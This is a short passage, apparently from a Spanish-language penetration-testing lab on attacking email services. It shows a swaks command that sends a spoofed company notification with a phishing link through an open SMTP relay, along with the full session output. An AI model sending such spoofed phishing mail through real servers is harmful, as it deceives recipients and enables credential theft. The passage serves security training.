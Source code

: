 A continuación, podemos usar cualquier cliente de correo para conectarse al servidor de correo y enviar nuestro correo electrónico.

Atacando servicios de correo electrónico

```
xnoxos@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 ->
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 ->
 ->
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```